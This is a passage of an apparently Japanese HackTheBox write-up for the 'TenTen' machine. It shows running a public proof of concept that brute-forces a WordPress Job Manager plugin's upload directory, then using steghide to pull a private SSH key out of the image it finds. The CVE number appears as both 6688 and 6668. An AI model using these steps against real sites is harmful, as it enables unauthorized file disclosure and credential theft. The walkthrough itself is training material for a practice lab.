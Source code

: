 

---

# Foothold
WordPressのJobManagerというプラグインにCVE-2015-6688という脆弱性が見つかった
- WordPress アップロード ディレクトリ構造へのブルート フォース攻撃によってリモートの攻撃者が任意の CV ファイルを読み取る可能性がある。
	- CVファイル
		- なんのことか調べてもわからなかった
	- PoC
		- https://github.com/jimdiroffii/CVE-2015-6668
PoCを利用してアップロードディレクトリへのブルートフォースを行ったら、以下の画像が見つかった
```bash
└──╼ [★]$ python3 exploit.py

CVE-2015-6668
Title: CV filename disclosure on Job-Manager WP Plugin
Author: Evangelos Mourikis
Blog: https://vagmour.eu
Plugin URL: http://www.wp-jobmanager.com
Versions: <=0.7.25

Enter a vulnerable website: http://tenten.htb
Enter a file name: HackerAccessGranted
[+] URL of CV found! http://tenten.htb/wp-content/uploads/2017/04/HackerAccessGranted.jpg

```
![](https://raw.githubusercontent.com/crum7/Obsidian/main/HackTheBox_Writeups/Retired/Medium/TenTen/images/Pasted%20image%2020241227111917.png)

ステガノグラフィーかもしれないので、どのような情報が含まれているのかをみる。
秘密鍵が含まれているらしい。
```bash
└──╼ [★]$ sudo steghide info *.jpg
"HackerAccessGranted.jpg":
  format: jpeg
  capacity: 15.2 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "id_rsa":
    size: 1.7 KB
    encrypted: rijndael-128, cbc
    compressed: yes

```

抽出する。
パスワードは特にないので、Enter押すだけで大丈夫
```bash
└──╼ [★]$ sudo steghide extract -sf *.jpg
Enter passphrase: 
wrote extracted data to "id_rsa".
```
